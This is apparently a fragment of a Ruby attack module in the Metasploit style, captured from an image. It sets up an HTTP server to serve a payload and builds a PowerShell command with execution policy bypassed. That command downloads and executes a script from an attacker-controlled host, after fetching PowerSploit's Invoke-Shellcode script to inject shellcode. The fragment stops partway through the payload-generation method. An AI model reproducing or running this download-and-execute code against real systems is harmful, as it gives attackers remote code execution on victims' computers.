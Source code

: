 ```
                content_type = "text/plain"
                client.puts "HTTP/1.0 200 OK\r\nContent-type: #{content_type}"\
                            "\r\nContent-Length: #{body.length}\r\n\r\n#{body}"\
                            "\r\n\r\n"
                sleep 5
                client.close
                kill
            end
        end
     end

     def kill!
        @sent = true
        @server.kill
     end

     alias :kill :kill!
end

#
# Returns if a port is used by a session
#
def is_port_used?(port)
    framework.sessions.each do |sid, obj|
       local_info = obj.instance_variable_get(:@local_info)
       return true if local_info =~ /:#{port}$/
    end

    false
end

def start_http_service(port)
    @server = HTTPServer.new(port, @pl)
end

def wait_payload

    waited = 0
    while (not @server.state)
        select(nil, nil, nil, 1)
        waited += 1
        if (waited > 10) # MAGIC NUMBA
            @server.kill
            raise RuntimeError, "No payload requested"
        end
    end
end

def generate(host, port, sport)
    require 'net/http'

    script_block = "iex (New-Object Net.WebClient).DownloadString('http://%s:%s/')" % [host, sport]
    cmd = "cmd.exe /c PowerShell.exe -Exec ByPass -Nol %s" % script_block

    # generate powershell payload
    url = URI.parse('https://raw.github.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1')
    req = Net::HTTP::Get.new(url.path)
    http = Net::HTTP.new(url.host, url.port)
    http.use_ssl = true

    res = http.request(req)

```